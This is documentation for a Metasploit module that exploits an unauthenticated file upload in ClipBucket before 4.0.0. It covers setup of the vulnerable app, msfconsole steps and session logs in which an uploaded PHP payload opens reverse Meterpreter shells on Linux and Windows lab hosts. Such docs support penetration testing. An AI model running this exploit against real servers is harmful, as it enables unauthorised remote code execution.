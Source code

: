 ## Description
A malicious file can be uploaded into the webserver by an unauthenticated attacker. It is possible for an attacker to upload
a malicious script file to issue operating system commands.

## Vulnerable Application 
According To publicly exploit Disclosure of ClipBucket < 4.0.0 - Release 4902
this application is vulnerable to Unauthenticated Arbitrary File Upload
read more : https://www.exploit-db.com/exploits/44250/

**Vulnerable Application Link** 
https://www.exploit-db.com/apps/60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip

## Vulnerable Application Installation Setup.
Download Application : ```wget https://www.exploit-db.com/apps/60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip```

Unzip : ```unzip 60cd1ff56ac93dd35c5e3c4e3537f53c-clipbucket-4881.zip ```

Move In WebDirectory : ```mv clipbucket-4881/upload/* /var/www/html/```

Change Owner : ```chown -R www-data:www-data /var/www/html/```

**And Follow Clipbucket Installer**
Visit : http://localhost/


## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/clipbucket_fileupload_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
```
[*] 10.22.1.4:80 The target appears to be vulnerable.
```
  7. Do: `set lport <port>`
  8. Do: `set lhost <ip>`
  9. Do: `exploit`
  10. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/`,  however it can be changed.

## Scenarios
**TESTED AGAINST LINUX**
```
msf > use exploit/multi/http/clipbucket_fileupload_exec 
msf exploit(multi/http/clipbucket_fileupload_exec) > set rhost 10.22.1.4
rhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set rport 80
rport => 80
msf exploit(multi/http/clipbucket_fileupload_exec) > set targeturi clipbucket
targeturi => clipbucket
msf exploit(multi/http/clipbucket_fileupload_exec) > set lhost 10.22.1.4
lhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set lport 5050
lport => 5050
msf exploit(multi/http/clipbucket_fileupload_exec) > run 

[*] Started reverse TCP handler on 10.22.1.4:5050 
[*] Uploading payload..
[+] Looking For Payload .... 
[+] found payload in /actions/CB_BEATS_UPLOAD_DIR/1520842928949a3f.php 
[*] Executing Payload [ clipbucket/actions/CB_BEATS_UPLOAD_DIR/1520842928949a3f.php ]
[*] Sending stage (37543 bytes) to 10.22.1.4
[*] Meterpreter session 1 opened (10.22.1.4:5050 -> 10.22.1.4:41752) at 2018-03-12 13:52:10 +0530
[+] Deleted 1520842928949a3f.php

meterpreter > sysinfo 
Computer    : linux
OS          : Linux linux 4.14.0-kali3-amd64 #1 SMP Debian 4.14.17-1kali1 (2018-02-16) x86_64
Meterpreter : php/linux
meterpreter > 

```

**TESTED AGAINST WINDOWS**
```
msf > use exploit/multi/http/clipbucket_fileupload_exec 
msf exploit(multi/http/clipbucket_fileupload_exec) > set rhost 10.22.1.13
rhost => 10.22.1.13
msf exploit(multi/http/clipbucket_fileupload_exec) > set rport 80
rport => 80
msf exploit(multi/http/clipbucket_fileupload_exec) > set TARGETURI clipbucketest
TARGETURI => clipbucketest
msf exploit(multi/http/clipbucket_fileupload_exec) > set lhost 10.22.1.4 
lhost => 10.22.1.4
msf exploit(multi/http/clipbucket_fileupload_exec) > set lport 4545
lport => 4545
msf exploit(multi/http/clipbucket_fileupload_exec) > exploit 

[*] Started reverse TCP handler on 10.22.1.4:4545 
[*] Uploading payload..
[+] Looking For Payload .... 
[+] found payload in /actions/CB_BEATS_UPLOAD_DIR/152084407045df09.php 
[*] Executing Payload [ clipbucketest/actions/CB_BEATS_UPLOAD_DIR/152084407045df09.php ]
[*] Sending stage (37543 bytes) to 10.22.1.13
[*] Meterpreter session 1 opened (10.22.1.4:4545 -> 10.22.1.13:49166) at 2018-03-12 14:11:10 +0530
[+] Deleted 152084407045df09.php

meterpreter > sysinfo 
Computer    : AGENT22-PC
OS          : Windows NT AGENT22-PC 6.1 build 7600 (Windows 7 Ultimate Edition) i586
Meterpreter : php/windows
meterpreter > 

```